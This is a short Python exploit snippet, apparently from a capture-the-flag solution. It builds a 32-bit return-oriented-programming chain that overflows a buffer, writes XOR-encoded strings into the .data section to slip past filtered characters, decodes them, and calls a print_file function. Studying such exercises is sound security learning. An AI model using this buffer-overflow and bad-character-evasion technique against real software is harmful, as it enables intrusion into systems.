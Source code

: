 ```python
pop_ebx_esi_edi_epb = p32(0x080485b8)
pop_ebp = p32(0x080485bb)
mov_EDI_esi = p32(0x0804854f)
xor_EPB_bl = p32(0x08048547)

payload = b'A'*44

payload += pop_ebx_esi_edi_epb
payload += str2
payload += str1_1
payload += data_address
payload += data_address
payload += mov_EDI_esi

payload += pop_ebx_esi_edi_epb
payload += str2
payload += str1_2
payload += p32(0x0804a018+4) # .data address + 4
payload += data_address
payload += mov_EDI_esi

payload += xor_EPB_bl
for i in range(1,8):
    payload += pop_ebp  
    payload += p32(0x0804a018+i) # .data address + i
    payload += xor_EPB_bl

payload += print_file_address
payload += b'A'*4 # fake print_file() return address
payload += data_address 

io.sendline(payload)
print(io.recvall())
```
